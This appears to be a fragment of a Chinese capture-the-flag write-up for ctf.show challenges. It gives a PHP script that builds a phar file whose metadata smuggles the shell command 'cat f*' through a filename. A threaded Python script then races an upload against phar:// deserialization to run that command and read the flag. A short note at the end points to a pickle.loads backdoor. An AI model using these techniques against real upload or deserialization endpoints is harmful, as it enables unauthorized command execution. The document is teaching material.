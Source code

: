 ```php
```

phar.phar :

```php
<?php
class filter{
    public $filename="1.txt;cat f*;";
    public $filecontent;
    public $evilfile=true;
    public $admin = true;
}
$a=new filter();

$phar = new Phar("phar.phar"); //后缀名必须为phar
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
$phar->setMetadata($a); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
?>
```

python脚本：

```python
import requests
import threading
url="http://66155619-f7c6-4fb4-acf1-d196be37cdb8.chall.ctf.show:8080/"
f=open("./phar.phar","rb")
content=f.read()
def upload():  #上传1.phar，内容是本地文件：phar.phar
    requests.post(url=url+"?fn=1.phar",data=content)
def read():  #利用条件竞争，尝试phar://反序列化1.phar，1.phar没被删除就能被反序列化，因而就能执行system()函数从而执行我们的命令
    r = requests.post(url=url+"?fn=phar://1.phar/",data="1")
    if "ctfshow{"in r.text or "flag{" in r.text:
        print(r.text)
        exit()
while 1:
    t1=threading.Thread(target=upload)
    t2=threading.Thread(target=read)
    t1.start()
    t2.start()
```



---
# 277 278(python反序列化)
F12：/backdoor?data= m=base64.b64decode(data) m=`pickle.loads`(m)
查了一下为python
